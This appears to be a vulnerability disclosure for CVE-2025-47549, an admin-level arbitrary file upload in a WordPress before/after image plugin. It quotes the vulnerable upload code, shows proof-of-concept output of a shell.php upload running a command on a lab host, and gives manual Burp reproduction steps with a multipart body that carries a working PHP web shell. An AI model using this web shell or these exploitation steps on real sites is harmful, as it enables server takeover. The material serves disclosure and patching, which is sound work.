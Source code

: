 +++
title = 'Ultimate Before After Image Slider & Gallery – BEAF <= 4.6.10 - Authenticated (Admin+) Arbitrary File Upload via beaf_options_save'
date = 2025-04-23T05:18:12+00:00
hideToc = true
+++
### CVE-2025-47549

The [Ultimate Before After Image Slider & Gallery](https://wordpress.org/plugins/beaf-before-and-after-gallery/) plugin does not sanitize the file types of the `beaf_options_save` action, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits
* A POC [CVE-2025-47549.py](https://github.com/d0n601/CVE-2025-47549/blob/main/CVE-2025-47549.py) is provided to demonstrate an administrator uploading a web shell named `shell.php`.

```console
python3 CVE-2025-47549.py https://lab1.hacker admin PASSWORD
Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
Uploading web shell: shell.php
{"status":"success","message":"Options saved successfully!"}
Web Shell Location: https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 68200sec preferred_lft 68200sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86113sec preferred_lft 14113sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:e5:9e:f6:23 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>

```

## Details  
The `beaf_options_save` action calls the `beaf_save_options()` function on line [227](https://plugins.trac.wordpress.org/browser/beaf-before-and-after-gallery/trunk/admin/tf-options/classes/BEAF_Settings.php#L227) of `/wp-content/plugins/beaf-before-and-after-gallery/admin/tf-options/classes/BEAF_Settings.php` without enforcing any file type validation. 

Lines [281-292](https://plugins.trac.wordpress.org/browser/beaf-before-and-after-gallery/trunk/admin/tf-options/classes/BEAF_Settings.php#L281-292) of this function check the http request for `$_FILES` and only validates the mime type agains a generic `application/octet-stream`. It will then store the file in a web accessible directory `/wp-content/uploads/itinerary-fonts`.
```php
    if ( isset( $_FILES ) && ! empty( $_FILES['file'] ) ) {
        $tf_upload_dir = wp_upload_dir();
        if ( ! empty( $tf_upload_dir['basedir'] ) ) {
            $tf_itinerary_fonts = $tf_upload_dir['basedir'] . '/itinerary-fonts';
            if ( ! file_exists( $tf_itinerary_fonts ) ) {
                wp_mkdir_p( $tf_itinerary_fonts );
            }
            $tf_fonts_extantions = array( 'application/octet-stream' );
            for ( $i = 0; $i < count( $_FILES['file']['name'] ); $i++ ) {
                if ( in_array( $_FILES['file']['type'][ $i ], $tf_fonts_extantions ) ) {
                    $tf_font_filename = $_FILES['file']['name'][ $i ];
                    move_uploaded_file( $_FILES['file']['tmp_name'][ $i ], $tf_itinerary_fonts . '/' . $tf_font_filename );
                }
            }
        }
    }
```

## Manual Reproduction
1. Login to the admin panel and navigate to `Before and After Slider -> Settings`.
    * Example: `https://lab1.hacker/wp-admin/edit.php?post_type=bafg&page=beaf_settings`.
2. Start up Burp Suite or a similar tool and begin intercepting the traffic. 
3. Click the `Save` button in the lower right hand corner. 
![test1](./posts/images/cve-2025-47549/images/1.png)
4. Intercept the POST request in Burp, and append your own file data (ensure you use the correct form boundaries).
```
------WebKitFormBoundarydAJeoqdwR5qxfDb1
Content-Disposition: form-data; name="file[]"; filename="shell.php"
Content-Type: application/octet-stream

<?php
// Silence is golden
if (!empty($_GET['cmd'])) {
    echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
}
------WebKitFormBoundarydAJeoqdwR5qxfDb1--
```
6. Modify the next request containing the form data to set the file name to `poc.php`: 
![test2](./posts/images/cve-2025-47549/images/images/2.png)
7. Naviage to `https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php` to execute the proof of concept.
![test3](./posts/images/cve-2025-47549/images/images/3.png)
